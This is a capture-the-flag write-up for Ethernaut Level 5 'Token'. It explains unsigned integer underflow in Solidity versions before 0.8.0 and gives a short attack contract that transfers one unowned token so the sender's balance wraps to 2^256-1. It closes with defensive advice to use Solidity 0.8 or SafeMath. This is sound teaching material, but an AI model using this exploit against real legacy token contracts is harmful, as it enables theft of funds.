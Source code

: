<div align="center">

<img src="../assets/levels/5-token.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 5 - Token</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Examples](#examples)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/5-token-requirements.webp" width="800px"/>

## The hack

> An odometer or odograph is an instrument used for measuring the distance traveled by a vehicle, such as a bicycle or car.

To succeed at this level, we have to understand the concept of underflow and overflow in solidity. All variables have a maximum value that they can hold, and if you try to add a value that exceeds this maximum, the variable will overflow and start from 0.

And since we are using mostly unsigned integers (uint) in solidity, variables also have a minimum value (0), and if you try to subtract a value that is greater than the current value, the variable will underflow and start from the maximum value.

### Examples

Solidity's unsigned integers have a fixed range of values they can represent. An overflow occurs when a calculation exceeds an unsigned integer's maximum value, and underflow happens when a calculation drops below an unsigned integer's minimum value (which is 0 for unsigned integers).

```javascript
pragma solidity ^0.6.0;

contract Example {
    uint8 public minValue = 0;
    uint8 public maxValue = 255;

    function underflow() public {
        // 0 - 1 = 255 (Underflow)
        minValue--;
    }

    function overflow() public {
        // 255 + 1 = 0 (Overflow)
        maxValue++;
    }
}
```

Fortunately for us, since solidity `0.8.0`, the compiler throws an error when an overflow or underflow occurs. But here, we can take advantage of this since we are using an older version of solidity.

## Solution

Since the contract is using solidity ^0.6.0, and since no `SafeMath` library is used, it is easy to create an underflow.

```javascript
require(balances[msg.sender] - _value >= 0);
```

The following contract will try to transfer 1 token (which he doesn't have) to our address, and the balance will underflow to the maximum value of uint256 (2^256 is a pretty big number).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
}

contract UnsafeMath {
    address immutable token;

    constructor(address _token) {
        token = _token;
    }

    function attack() public {
        IToken(token).transfer(msg.sender, 1);
    }
}
```

Here is what will happen:

```javascript
require(balances[msg.sender] - _value >= 0); // Passed
// 0 - 1 = 2^256 - 1
balances[msg.sender] -= _value; // balances[msg.sender] = 2^256 - 1;
```

## Takeaway

- Always use a recent version of Solidity (^0.8.0) to benefit from native overflow and underflow checks.
- If you need to interact with a contract using a solidity version older than 0.8.0, always check that the contract is using a SafeMath library or equivalent.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
